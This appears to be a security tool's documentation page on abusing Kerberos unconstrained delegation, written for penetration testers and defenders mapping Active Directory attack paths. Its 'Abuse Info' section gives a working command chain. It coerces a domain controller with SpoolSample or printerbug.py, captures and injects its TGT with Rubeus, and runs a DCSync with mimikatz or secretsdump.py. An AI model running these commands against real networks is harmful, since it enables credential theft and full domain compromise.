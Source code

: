 ---
title: CoerceToTGT
description: "The computer/user account is configured with Kerberos unconstrained delegation."
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 



In a standard Kerberos authentication process, when a principal accesses a Kerberos-enabled service, they present a service ticket to the service host (a computer or service account). This ticket cannot be used to authenticate against other services. However, if a computer or service account is trusted for unconstrained delegation, the principal sends their full Kerberos Ticket Granting Ticket (TGT). This TGT can be forwarded, allowing the service host to impersonate the principal across other services within the environment.

An attacker can coerce a Tier Zero computer (e.g. DC) to authenticate against the account and obtain the target's TGT. With the TGT of a DC, the attacker can perform DCSync to compromise the domain. Alternatively, the TGT can be used to obtain admin access to the target host with a shadow credentials + silver ticket attack or a resource-based constrained delegation attack.

Accounts marked as sensitive or belonging to the Protected Users group are protected against the attacks as they will not send their TGTs to accounts with unconstrained delegation enabled.

## Abuse Info

A common way for attackers to abuse unconstrained delegation is for the attacker to coerce a DC using the printspooler.

The attack will fail if the target is a member of Protected Users or marked as sensitive, as the TGT of those principals will not be sent to the principal with unconstrained delegation. You can find all the protected principals with this Cypher query:

```bash
MATCH (g:Group)
WHERE g.objectid ENDS WITH "-525"
MATCH (n:Base)
WHERE n.sensitive = TRUE OR (n)-[:MemberOf*..]->(g)
RETURN n
LIMIT 1000
```

There are many other coercion techniques than printspooler that can be used (see References).

The instructions provided here are for abusing a computer with unconstrained delegation. For abuse of a user, see [Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html).

**Step 1: Start monitoring for TGTs**

Log in on the computer configured with unconstrained delegation and open CMD as Administrator.

Start monitoring for incoming TGTs using Rubeus:

```bash
Rubeus.exe request monitor /user:<target DC DNS name> /interval:5 /nowrap
```
**Step 2: Coerce target DC**

From any host in the domain, coerce the target DC using printspooler.

Windows:

```bash
SpoolSample.exe <target DC DNS name> <compromised computer DNS name>
```
Linux:

```bash
printerbug.py '<domain>/<username>:<password>'@<target DC IP> <compromised computer IP>

```

Rubeus will print the DC TGT as it is received.

**Step 3: Pass the Ticket**

Windows:

Inject the DC TGT into memory using Rubeus on any computer in the domain:

```bash
Rubeus.exe ptt /ticket:doIFvjCCBbqgAwI...
```

Linux:

Save the TGT base64 blob as a .kirbi file:

```bash
echo "doIFvjCCBbqgAwI..." | base64 -d | tee ticket.kirbi > /dev/null
```

Convert the TGT to ccache format using ticketConverter.py:

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

Set the KRB5CCNAME environment variable to the ticket's path:

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```

**Step 4: DCSync target domain**

Windows:

Use mimikatz to DCSync the domain from the computer where the DC TGT was injected:

```bash
lsadump::dcsync /domain:<domain.name> /user:<DOMAIN\targetuser>
```
Linux:

Use secretsdump.py to DCSync the target domain:

```bash
secretsdump.py -k -just-dc-user <DOMAIN/targetuser> <target DC DNS name>
```

## Opsec Considerations

There is no opsec information for this edge.

## References

[Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
[Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
[Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html)
[(RBCD) Resource-based constrained](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
[Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
[Rubeus](https://github.com/GhostPack/Rubeus)
[SpoolSample](https://github.com/leechristensen/SpoolSample)
[mimikatz](https://github.com/gentilkiwi/mimikatz)
[printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
[ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py)
[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
